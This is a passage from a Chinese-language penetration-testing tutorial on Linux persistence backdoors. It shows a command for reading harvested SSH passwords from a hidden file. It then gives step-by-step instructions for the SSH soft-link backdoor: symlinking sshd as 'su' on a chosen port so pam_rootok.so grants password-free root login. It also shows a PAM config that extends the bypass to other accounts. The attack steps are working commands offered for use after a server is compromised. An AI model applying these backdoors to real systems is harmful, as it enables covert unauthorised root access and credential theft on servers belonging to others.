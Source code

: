 保存 -> 编译 -> 覆盖 -> 从ssh用正常密码登录几次账号，提供记录的数据 -> 查看保存的文件：
`cat /tmp/.record_pwd`
![image-20230426005227686](https://res.cloudinary.com/sycamore/image/upload/v1682441550/Typera/2023/04/c09d43ce405bdb94fdbbc667420539ad.png)

## SSH软连接后门
**前提**：
- getshell，已获得服务器的root权限，
- ssh配置中开启了PAM进行身份验证（验证PAM是否开启：`cat/etc/ssh/sshd_config|grep UsePAM`）一般默认开启
- 防火墙关闭，或者开放了使用的端口号

### 原理：
- **软连接简介：**
软链接，就是一个指向另一个档案位置的，特殊的档案。
软连接以路径的形式存在。类似于Windows操作系统中的**快捷方式**。

- 若ssh配置中**开启了PAM身份验证机制**，PAM模块会搜寻相关设定文件（一般在**/etc/pam.d/**）。
而在**/etc/pam.d/su**文件中启用了**pam_rootok.so**模块。
该模块可以使root用户直接通过身份认证，**不需要**输入密码。
- 当我们指定的端口的软链接文件为 **/路径/su** 的时候，若从该端口**连接ssh**，**PAM**就会去路径`/etc/pam.d/`下找到对应的配置文件，即**/etc/pam.d/su**，
然后使用 **su** 中启用的**pam_rootok.so**模块，实现无密登录。


### 创建root账户
创建ssh软链接：`ln -sf /usr/sbin/sshd /usr/local/su;/usr/local/su -oPort=端口号`（端口号确保可用）

这条命令，先是使用 ln 强制(-f)创建，路径为`/usr/sbin/sshd`文件的软连接(-s)，并保存为`/usr/local/su`文件（**路径随意**、**文件名可变**），然后把 su 文件（sshd）连到指定的端口

其中，创建的软连接名字虽然可变，但是也**不能随便命名**。可用的名字可以通过命令：`find /etc/pam.d|xargs grep "pam_rootok"`查看：
![image-20230426005233857](https://res.cloudinary.com/sycamore/image/upload/v1682441558/Typera/2023/04/fc163d487f4169876de475b8ddda580f.png)


### 实现：
![image-20230426005237555](https://res.cloudinary.com/sycamore/image/upload/v1682441561/Typera/2023/04/ca4d722ad8a618c1764639e0467bfd32.png)

这时候就能从2333端口，用root身份登入了（`ssh root@192.168.158.128 -p 2333`）：
这里使用 cmd 演示：
![](https://res.cloudinary.com/sycamore/image/upload/v1682441566/Typera/2023/04/b10b4b1d4b022009231a95b178468b94.png)





### 创建其它账户
PAM中事先是没有供其他用户免密登录的配置文件的，所以，要事先使用下面的命令，用 echo 把引号内的内容保存到`/etc/pam.d/用户名`的文件里面，让以你的用户名为文件名的配置文件使用**pam_rootok.so**模块。
```
echo " 
 #%PAM-1.0
 auth       sufficient   pam_rootok.so
 auth       include      system-auth
 account    include      system-auth
 password   include      system-auth
 session    include      system-auth " >> /etc/pam.d/已有的用户名
```
现在可以看到，在`/etc/pam.d/`文件夹下出现了一个，以你设定的用户名为名的配置文件（这里为**kali**）：
![image-20230426005247027](https://res.cloudinary.com/sycamore/image/upload/v1682441571/Typera/2023/04/2ac6a6a91723dcd035e8e9a5163dfc92.png)
